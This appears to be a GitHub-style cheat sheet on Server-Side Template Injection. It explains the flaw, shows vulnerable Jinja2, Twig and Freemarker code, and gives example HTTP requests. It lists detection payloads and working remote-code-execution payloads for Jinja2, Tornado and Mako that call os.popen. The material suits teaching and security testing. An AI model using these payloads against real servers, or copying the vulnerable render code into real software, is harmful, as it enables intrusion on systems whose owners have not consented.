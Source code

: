# Server-Side Template Injection (SSTI)

## Table of Contents
1. [Introduction](#introduction)
2. [How Does SSTI Vulnerability Occur?](#how-does-ssti-vulnerability-occur)
3. [Where to Put an SSTI Payload?](#where-to-put-an-ssti-payload)
4. [Examples of HTTP Requests with SSTI Payloads](#examples-of-http-requests-with-ssti-payloads)
   - [Basic SSTI in a Python Flask/Jinja2 Application](#basic-ssti-in-a-python-flaskjinja2-application)
   - [Exploiting SSTI to Execute Arbitrary Code](#exploiting-ssti-to-execute-arbitrary-code)
   - [SSTI in a PHP Application Using Twig](#ssti-in-a-php-application-using-twig)
   - [Java Application Using Freemarker](#java-application-using-freemarker)
5. [Breaking Out of Expressions](#breaking-out-of-expressions)
6. [SSTI Payloads for Detection](#ssti-payloads-for-detection)
7. [SSTI Payloads for Specific Template Engines](#ssti-payloads-for-specific-template-engines)
   - [Tornado (Python)](#tornado-python)
   - [Mako (Python)](#mako-python)

---

## Introduction
**Server-Side Template Injection (SSTI)** is a web application vulnerability that occurs when user input is embedded directly into a server-side template, allowing an attacker to execute arbitrary code on the server. This vulnerability arises when the application fails to properly sanitize user input before using it in a template rendering engine.

## How Does SSTI Vulnerability Occur?
SSTI occurs due to insecure handling of template rendering in web applications. It happens when:
1. **User Input is Used in Templates**: The application allows user input to be directly embedded in server-side templates for rendering.
2. **Lack of Input Sanitization**: The user-provided data is not validated, sanitized, or properly escaped, making it possible for malicious input to be interpreted as template code.
3. **Insecure Template Engines**: Some template engines allow code execution or direct access to server resources if provided with crafted input.

Popular template engines vulnerable to SSTI include Jinja2 (Python), Twig (PHP), Freemarker (Java), and others.

## Where to Put an SSTI Payload?
An SSTI payload is placed in any input field, URL parameter, or HTTP header where the data is used in server-side templates. Common areas include:
- **Form fields that are used in rendering responses** (e.g., feedback forms, profile descriptions).
- **URL parameters that affect template rendering**.
- **HTTP request headers, if used in templates**.

## Examples of HTTP Requests with SSTI Payloads
### Basic SSTI in a Python Flask/Jinja2 Application
**Malicious Payload (`{{7*7}}`)**:
- When rendered in Jinja2, this payload evaluates `7*7` and returns `49`.

**Example HTTP Request**:
```http
GET /greeting?name={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```python
return render_template('greeting.html', name=request.args.get('name'))
```
**In code context**:

![Screenshot From 2025-03-21 10-20-10](https://github.com/user-attachments/assets/8f83b265-7297-4f52-aa10-3ec37bafcd78)

### Exploiting SSTI to Execute Arbitrary Code
**Malicious Payload for Jinja2 (`{{config.__class__.__init__.__globals__['os'].popen('id').read()}}`)**:

**Example HTTP Request**:
```http
POST /feedback HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

message={{config.__class__.__init__.__globals__['os'].popen('id').read()}}
```

### SSTI in a PHP Application Using Twig
**Malicious Payload (`{{7*7}}`)**:
- In Twig, this would be evaluated and produce `49`.

**Example HTTP Request**:
```http
GET /profile?bio={{7*7}} HTTP/1.1
Host: vulnerable-website.com
```

**Vulnerable Code Example**:
```php
echo $twig->render('profile.html', ['bio' => $_GET['bio']]);
```

### Java Application Using Freemarker
**Malicious Payload (`${7*7}`)**:
- In Freemarker, `${7*7}` would evaluate to `49`.

**Example HTTP Request**:
```http
POST /submit HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 20

comment=${7*7}
```

**Vulnerable Code Example**:
```java
template.process(dataModel, out);
```

## Breaking Out of Expressions
In more complex cases, the vulnerability might not be evident from a simple mathematical operation. For example, if user input is placed within a template expression, like so:
```python
greeting = getQueryParameter('greeting')
engine.render("Hello {{" + greeting + "}}", data)
```
- **Injection Example:**
   ```
   http://vulnerable-website.com/?greeting=data.username}}
   ```

## SSTI Payloads for Detection
```html
${{<%[%'"}}%\
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

## SSTI Payloads for Specific Template Engines
### Tornado (Python)
**Detection Payload**:
```python
{{7*7}}
```

**Execution Payload**:
```python
{{__import__('os').popen('whoami').read()}}
```

### Mako (Python)
**Detection Payload**:
```python
${7*7}
```

**Execution Payload**:
```python
${self.module.cache.util.os.popen("whoami").read()}
```

---
